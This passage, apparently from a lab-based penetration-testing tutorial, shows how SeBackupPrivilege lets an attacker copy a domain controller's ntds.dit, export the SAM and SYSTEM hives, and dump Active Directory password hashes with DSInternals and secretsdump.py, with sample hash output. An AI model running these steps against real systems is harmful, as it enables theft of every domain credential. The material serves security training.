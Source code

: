 Now if you try to list the directories of the ```E:``` drive, you will see the same tree structure as in the ```C:``` drive.
The ```Copy-FileSeBackupPrivilege``` cmdlet allows us to bypass ACL and copy the NTDS.dit wherever we want :

```posh
PS > Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Users\Public\Downloads\ntds.dit
```

> You also use tools to extract the ```ntds.dit``` file like robocopy :  ```robocopy /B E:\Windows\NTDS .\ntds ntds.dit```
{: .prompt-tip }

We can now export ```SAM``` and ```SYSTEM``` registery hives and try to crack local user passwords. First we need to export these hives :

```posh
reg save HKLM\SYSTEM SYSTEM.SAV
```
```posh
reg save HKLM\SAM SAM.SAV
```
Now that we have the ```SAM``` and ```SYSTEM``` registery hives, we can extract all AD account credentials using tools such as ```secretsdump.py``` or the PowerShell [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Src/DSInternals.PowerShell/DSInternals.psd1) :

1. **DSInternals**

```posh
PS > Import-Module .\DSInternals.psd1
PS > $key = Get-BootKey -SystemHivePath .\SYSTEM
PS > Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
<CREDS>
```

2. **Secretsdump**

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Bob:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```

> ```secretsdump.py``` is part of the [Impaket](https://www.kali.org/tools/impacket/) collection. If you already have ```Impaket````installed on your computer you already have the ```secretsdump.py``` too. You can use ```locate secretsdump.py``` to locate it.
{: .prompt-info }
